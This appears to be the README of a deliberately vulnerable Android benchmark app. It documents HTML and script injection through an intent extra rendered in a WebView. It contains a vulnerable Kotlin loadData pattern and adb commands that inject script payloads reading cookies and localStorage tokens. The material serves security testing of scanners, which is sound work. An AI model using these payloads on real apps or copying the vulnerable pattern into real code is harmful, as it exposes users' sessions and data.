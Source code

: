 # oxo-android-ben43: HTML Injection Through Intent Parameter

## Vulnerability Overview

HTML Injection Through Intent Parameter occurs when an Android app's WebView component displays content received from intent parameters without proper sanitization. This vulnerability allows attackers to inject malicious HTML, CSS, and JavaScript code through intent extras, leading to Cross-Site Scripting (XSS) attacks within the WebView context.

## Attack Vector: Basic XSS via Script Tag Injection

**Brief Explanation**: Direct injection of `<script>` tags through intent parameters that execute JavaScript when the HTML content is loaded in WebView.

**Key Characteristics:**
- Intent parameter contains malicious script tags
- WebView executes JavaScript without validation
- Can access WebView context and perform unauthorized actions
- Immediate execution upon content load

**Vulnerable Code Pattern:**
```kotlin
val htmlContent = intent.getStringExtra("content") ?: "Default content"
webView.loadData(htmlContent, "text/html", "utf-8")  // VULNERABLE!
```

## Testing

```bash
# Basic XSS attack with alert
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<script>alert('XSS Attack!')</script>"

# XSS with localStorage access
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<h1>News Article</h1><script>alert('Sensitive Data: ' + localStorage.getItem('userToken'))</script>"

# XSS with document.cookie access
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<script>alert('Cookie: ' + document.cookie)</script>"

# Multiple script tags
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<script>console.log('First script')</script><p>Content</p><script>alert('Second script executed!')</script>"
```

**Difficulty**: Easy

## Impact Assessment

- **Confidentiality**: High - Can access sensitive app data, cookies, local storage
- **Integrity**: High - Can modify app content and user interface
- **Availability**: Medium - Can redirect users or cause app malfunction
- **OWASP Mobile Top 10**: M7 - Client Code Quality
- **CWE**: CWE-79 (Cross-site Scripting), CWE-20 (Improper Input Validation)

